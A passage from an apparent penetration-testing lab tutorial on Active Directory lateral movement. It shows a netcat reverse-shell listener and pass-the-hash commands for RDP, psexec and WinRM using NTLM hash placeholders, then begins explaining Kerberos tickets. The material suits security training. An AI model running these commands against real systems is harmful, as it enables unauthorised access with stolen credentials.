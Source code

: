 This would be the equivalent of using `runas /netonly` but with a hash instead of a password and will spawn a new reverse shell from where we can launch any command as the victim user.

To receive the reverse shell, we should run a reverse listener on our AttackBox:

```bash
nc -lvp 5555
```

Interestingly, if you run the whoami command on this shell, it will still show you the original user you were using before doing PtH, but any command run from here will actually use the credentials we injected using PtH.

#### Passing the Hash Using Linux:

If you have access to a linux box (like your AttackBox), several tools have built-in support to perform PtH using different protocols. Depending on which services are available to you, you can do the following:

Connect to RDP using PtH:
```bash
xfreerdp /v:VICTIM_IP /u:DOMAIN\\MyUser /pth:NTLM_HASH
```

Connect via psexec using PtH:
```bash
psexec.py -hashes NTLM_HASH DOMAIN/MyUser@VICTIM_IP
```

**Note**: Only the linux version of psexec support PtH.

Connect to WinRM using PtH:
```bash
evil-winrm -i VICTIM_IP -u MyUser -H NTLM_HASH
```

### <font color="#FFA500">Kerberos Authentication</font>

Let's have a quick look at how Kerberos authentication works on Windows networks:

1. The user sends his username and a timestamp encrypted using a key derived from his password to the **Key Distribution Center (KDC)**, a service usually installed on the Domain Controller in charge of creating Kerberos tickets on the network.

  The KDC will create and send back a **Ticket Granting Ticket (TGT)**, allowing the user to request tickets to access specific services without passing their credentials to the services themselves. Along with the TGT, a **Session Key** is given to the user, which they will need to generate the requests that follow.

  Notice the TGT is encrypted using the **krbtgt** account's password hash, so the user can't access its contents. It is important to know that the encrypted TGT includes a copy of the Session Key as part of its contents, and the KDC has no need to store the Session Key as it can recover a copy by decrypting the TGT if needed.
